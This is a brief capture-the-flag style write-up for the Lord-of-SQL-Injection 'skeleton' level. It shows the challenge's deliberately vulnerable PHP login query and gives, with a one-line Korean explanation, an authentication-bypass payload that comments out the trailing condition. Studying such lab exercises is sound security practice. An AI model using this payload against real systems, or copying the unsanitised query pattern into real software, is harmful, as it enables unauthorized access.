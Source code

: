 # Lord-Of-SQL-Injection 10 skeleton

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id'] == 'admin') solve("skeleton");
    highlight_file(__FILE__);
?>
```

## How to solve

뒤에 and 1=0 을 주석처리 해준다고 생각하면 그리 어렵지 않게 풀 수 있다.

`' or id='admin' -- -`
